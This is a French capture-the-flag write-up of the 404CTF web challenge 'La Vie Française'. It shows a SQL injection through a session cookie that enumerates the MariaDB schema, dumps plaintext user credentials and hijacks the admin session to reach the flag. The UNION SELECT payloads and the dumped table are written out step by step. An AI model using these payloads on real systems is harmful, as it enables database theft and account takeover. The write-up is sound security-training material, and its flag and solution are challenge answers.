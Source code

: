 # La Vie Française

<img alt="énoncé du challenge" src="enonce.png" width=500>

La page d'accueil présente un lien pour *Se connecter* :

![page accueil](page-home.png)

Une tentative d'injection SQL est vaine. Seuls les caractères alphabétiques sont autorisés pour le login et le password :

![caractères autorisés](page-login.png)

De même, il n'est pas possible d'utiliser le compte `admin` qui semble désactivé :

![compte admin désactivé](page-login-admin.png)

On crée un compte `toto` que l'on utilise pour se connecter :

![connexion avec le compte toto](page-account-toto.png)

Le message indique que la page est en rénovation. On cherche une autre version de la page : https://la-vie-francaise.challenges.404ctf.fr/.account~

La page n'existe pas, mais un lien vers un *Panneau d'admin* apparaît :

![page inexistante](page-404.png)

Malheureusement, nous ne sommes pas autorisés à accéder à cette page /admin :

![accès /admin interdit](page-admin-403.png)

Lors de la connexion un cookie `uuid` a été positionné.

On essaie d'exploiter une injection SQL par ce biais avec comme valeur pour le cookie `1' or '1'='1`. La page du compte `jacquerival` est alors présentée :

![page /account jacquerival](page-account-jacquesrival.png)

On essaie maintenant de déterminer le nombre de colonnes exploitées et leur utilisation (ou non) dans la construction de la page.
La valeur du cookie utilisée est `' union select '1', '2', '3`

![select 1,2,3](page-account-1-2-3.png)

Donc 3 colonnes sont utilisées dans la requête, mais seulement les colonnes 1 et 2 sont présentes sur la page.

On tente avec  `' union select 'admin', 'admin', 'admin` :

![select admin,admin,admin](page-account-admin-admin-admin.png)

Le lien du *Panneau admin* apparaît, mais reste inaccessible.

On effectue d'autres expérimentations.

Identification de la base sous-jacente :
- uuid : `1' union select '1',version(),'3`
- résultat : `10.11.3-MariaDB-1:10.11.3+maria~ubu2204`

Identification de la database :
- uuid : `1' union select '1',version(),'3`
- résultat : `usersdb`

Liste des tables disponibles dans ce schéma :
- uuid : `1' union select '1', group_concat(table_name), '3' FROM information_schema.tables WHERE table_schema='usersdb`
- résultat : `users`

Liste des colonnes de la table `users` :
- uuid : `1' union select '1', group_concat(column_name), '3' FROM information_schema.columns WHERE table_name='users' and table_schema='usersdb`
- résultat : `id,username,password,uuid,description,status`

Contenu de la table `users` :
- `1' union SELECT 'admin', group_concat(id,'|', username,'|',password,'|',uuid,'|',description,'|', status), '3' FROM users where '1'= '1`
- résultat :
    ```
    1|jacquesrival|jQwmE96dZMEwmL|ea959fd4c62c41dfa7f480faef8a029d|Journaliste pour La vie Française|invite,
    2|louislangremont|Am2GzqU4xWA3At|3e7e863e74fe491a8c571e7d98b14f96|Journaliste pour La vie Française|invite,
    3|saintpotin|rH2jWTo9mnWJpd|c393c00634bb4420b9d94288ef16be70|Journaliste pour La vie Française|invite,
    4|norbertdevarenne|2P4vLpv7SV5dRK|417270ceb4294b2ca64a464f46909db7|Poète pessimiste|invite,
    5|larochemathieu|4EJ36bMx2NgAuh|4fec4a3c909f441c8502e616e4d22acf|Ministre|invite,
    6|madeleineforestier|fo2DVkgShz2pPJ|8650580d3fe9431f8281b2212e9ff0de|Editrice en chef|admin,
    7|a|a|9350288637f34eaa94c4b861a8495045|Candidat pour le poste de journaliste|invite,
    8|azerty|azerty|ae3ae764b6b443bc91f19bac98b14c2f|Candidat pour le poste de journaliste|invite
    ```

Seul le compte `madeleineforestier` est `admin`.

On positionne le cookie `uuid=8650580d3fe9431f8281b2212e9ff0de` et on se retrouve bien connecté en tant que madeleineforestier :

> Les mots de passe étant stockés en clair, on peut utiliser celui de madeleineforestier pour se connecter via le formulaire d'authentification.

![page /account madeleineforestier](page-account-madeleineforestier.png)

On suit le lien vers le *Panneau admin* :

![panneau admin](page-flag.png)

Le flag est donc : `404CTF{B3w4Re_th3_d3STruct1v3s_Qu0tes}`
